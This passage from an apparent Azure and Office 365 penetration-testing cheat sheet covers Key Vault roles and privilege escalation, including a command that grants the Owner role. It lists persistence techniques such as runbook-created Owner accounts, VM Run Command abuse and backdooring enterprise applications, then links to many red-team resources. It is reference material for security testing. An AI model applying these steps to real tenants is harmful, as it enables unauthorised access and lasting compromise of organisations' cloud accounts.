| Key Vault Crypto Officer | Perform any action on keys. Cannot manage permissions | Yes (Keys) | 
| Key Vault Secrets Officer | Perform any action on secrets. Cannot manage permissions | Yes (Secrets) | 
| Key Vault Secrets User | Read secret contents | Yes (Secrets) | 
| Key Vault Crypto Service | Read metadata and perform wrap/unwrap operations on keys | No | 
| Key Vault Crypto User | Perform cryptographic operations using keys | No | 
| Key Vault Reader | Read metadata of key vaults and its certificates, keys, and secrets | No | 


#### Misc Privilege Escalation techniques
- **Create New Role Assignment**  
Prerequisite: Permission *Microsoft.Authorization/roleAssignments/write*.  
Attacker: Can create a role assignment with the owner role at the same scope
```
PS C:> az role assignment create --assignee jdoe@company.com --role "owner"
```

#### Microsoft 365 Compliance Search
- https://docs.microsoft.com/en-us/microsoft-365/compliance/content-search?view=o365-worldwide

- https://protection.office.com OR https://compliance.microsoft.com
- Must be a member of *eDiscovery Manager* role group in **Security & Compliance Center**.
	+ *Administrator*
	+ *compliance officer*
	+ *eDiscovery manager*

--> Search en report across all Microsoft 365 services to "passwords", "secrets"...

<br/>

#### Finding sensitives files - Sharepoint / OneDrive
- https://github.com/nheiniger/SnaffPoint

## Persistence
#### Backdoor O365 / AAD accounts
TeamFiltration is a cross-platform framework for enumerating, spraying, exfiltrating, and backdooring O365 AAD accounts.  
- https://github.com/Flangvik/TeamFiltration

#### Hooking Azure AD Connect
- https://blog.xpnsec.com/azuread-connect-for-redteam/
- https://www.youtube.com/watch?v=UxKEQ9tIiLs

#### Azure service principal backdoor

#### Automation account persistence
Set up properly, they can be use to regain Owner (or higher*) permissions to subscriptions in the Azure tenant with a new AzureAD account.  

1. Create a new Automation Account 
2. Import a new runbook that creates an AzureAD user with Owner permissions for the subscription*
        Sample runbook for this Blog located [here](https://github.com/NetSPI/MicroBurst/blob/master/Misc/AutomationRunbook-OwnerPersist.ps1) 
3. Add the AzureAD module to the Automation account
4. Update the Azure Automation Modules Assign “User Administrator” and “Subscription Owner” rights to the automation account 
5. Add a webhook to the runbook 
6. Eventually lose your access… 
7. Trigger the webhook with a post request to create the new user


#### Desired State Configuration (DSC) Azure

- Azure Automation State Configuration:  
```Azure Automation State Configuration allows administrators to use an Azure Automation Account to deploy DSC at scale across their cloud VMs and on-premise systems.```

- Desired State Configuration VM Extension:  
```PowerShell Desired State Configuration (DSC) is existing Windows functionality that allows system administrators to declare how a computer should be configured with configuration scripts and resources.```

##### Running Arbitrary Scripts Through the Desired State Configuration VM Extension
PowerShell scripts can be run directly through the DSC VM extension.  

- https://docs.microsoft.com/en-us/azure/virtual-machines/extensions/dsc-overview
- https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-persistence-with-desired-state-configurations/

#### Virtual Machine Contributor
Virtual Machine Contributor lets you manage virtual machines but not access to them.  

This role seems limited but it has the permission to use **Run Command** feature. Allowing user with *Virtual Machine Contributor* role to execute system command over a VM with elevated privileges  

--> This right is **Microsoft.Compute/virtualMachines/runCommand/** action which is included in Virtual Machine Contributor  
--> Includes the ability to re-enable the Administrator account  
--> Target VM Domain Controler in Azure  


#### Backdooring Enterprise Application
- https://www.inversecos.com/2021/10/how-to-backdoor-azure-applications-and.html

> In every application, there are two methods you are presented with for authenticating the service principal – a “secret” or a “certificate”. An attacker can add a new secret or a certificate to allow them to log into Azure – basically acting as a “backdoor”

3 methods:
- Send a phishing email to register a malicious application through an unsuspecting user
- Register an application within the Azure portal
- Find an existing application within the Azure portal to target 

<br/>

# Incident Response
#### AADCookie spoof
- https://github.com/jsa2/aadcookiespoof

# Training
### HackTheBox - BlackSky
- https://www.hackthebox.com/business/professional-labs/cloud-labs-blacksky

### Pentester Academy - CARTP
- https://bootcamps.pentesteracademy.com/course/ad-azure-nov-21

<br/>

# Azure Pentest : Resources

### Cloud Security - Red Team Management
- https://github.com/CyberSecurityUP/Red-Team-Management/tree/main/Cloud%20Security
  
#### Conditional access
- https://danielchronlund.com/2018/11/21/azure-ad-conditional-access-policy-design-baseline/
- https://docs.microsoft.com/en-us/azure/active-directory/conditional-access/overview

#### Privilege escalation via Service Principal abuse
- https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5

#### Github repo - cloud penetration testing
- https://github.com/kh4sh3i/cloud-penetration-testing

#### AAD Internals
- https://o365blog.com/aadinternals/

#### AzureHound cheatsheet
- https://hausec.com/2020/11/23/azurehound-cypher-cheatsheet/

#### Attack AzureAD / Powerzure
- https://hausec.com/2020/01/31/attacking-azure-azure-ad-and-introducing-powerzure/

#### Getting Started In Pentesting the Cloud : Azure
- https://www.youtube.com/watch?v=u_3cV0pzptY

#### Awesome Azure Penetration Testing
- https://github.com/Kyuu-Ji/Awesome-Azure-Pentest

#### Exploiting IMDS
- https://medium.com/marcus-tee-anytime/steal-secrets-with-azure-instance-metadata-service-dont-oversight-role-based-access-control-a1dfc47cffac

#### Blue Cloud Of Death : Red Teaming Azure
- https://speakerdeck.com/tweekfawkes/blue-cloud-of-death-red-teaming-azure-1

#### From Azure AD to Active Directory (Sean Metcalf)
- https://adsecurity.org/?p=4277
- https://adsecurity.org/wp-content/uploads/2017/07/2017-DEFCON-HackingTheCloud-SteereMetcalf-Final.pdf

#### I'm in your cloud (Dirk-jan Mollema)
- https://www.youtube.com/watch?v=fpUZJxFK72k

#### Azure Role-Based Access Control Deep Dive
- https://www.youtube.com/watch?v=qFoHDTxkQII

#### Azure AD introduction for Red Teamers
- https://www.synacktiv.com/en/publications/azure-ad-introduction-for-red-teamers.html

#### Azure Fundamental for Ethical Hackers and Special Ops Team
- https://ninocrudele.com/wp-content/docs/Azure-Fundamental-for-Ethical-Hackers-and-Special-Ops-Team.pdf

#### Azure AD cheatsheet for the CARTP course
- https://github.com/0xJs/CARTP-cheatsheet

#### Azure/O365 Enumeration - Password Attacks List
- https://www.redsiege.com/wp-content/uploads/2021/06/O365UserEnumeration_PasswordAttacks.pdf

#### Owning 365 through better brute forcing
- https://www.trustedsec.com/blog/owning-o365-through-better-brute-forcing/

#### Attacking MS-Exchange web interfaces
- https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/

#### Enumeration using B2B guest accounts
- https://danielchronlund.com/2021/11/18/scary-azure-ad-tenant-enumeration-using-regular-b2b-guest-accounts/

#### Azure AD Attack of the default config
- https://www.pentestpartners.com/security-blog/azure-ad-attack-of-the-default-config/
- https://medium.com/soteria-security/azure-ad-default-configuration-blunders-c7abddeae56

#### Six2dez repo Azure enumeration
- https://github.com/six2dez/pentest-book/blob/master/enumeration/cloud/azure.md

#### Azure Container Registry Exploitation
- https://www.netspi.com/blog/technical/cloud-penetration-testing/attacking-acrs-with-compromised-credentials/

#### Consent Grant Attack
- https://jeffreyappel.nl/protect-against-oauth-consent-phishing-attempts-illicit-consent-attack/

#### Attack Scenarios Abusing Azure Active Directory - HITB Conference
- https://www.youtube.com/watch?v=J9Kwb2IA65E

#### Red Teaming Microsoft Azure
- https://improsec.com/tech-blog/read2own

#### Administrator portals
- https://msportals.io/?search=

#### AAD Internals
- https://aadinternals.com/

#### Thomas VanLaere Blog
- https://thomasvanlaere.com/

#### Lina Lau - Inversecos
- https://www.inversecos.com/

#### Insights and release/change tracking on Azure
- https://www.azadvertizer.net/

#### Marius Solbakken blog
- https://goodworkaround.com/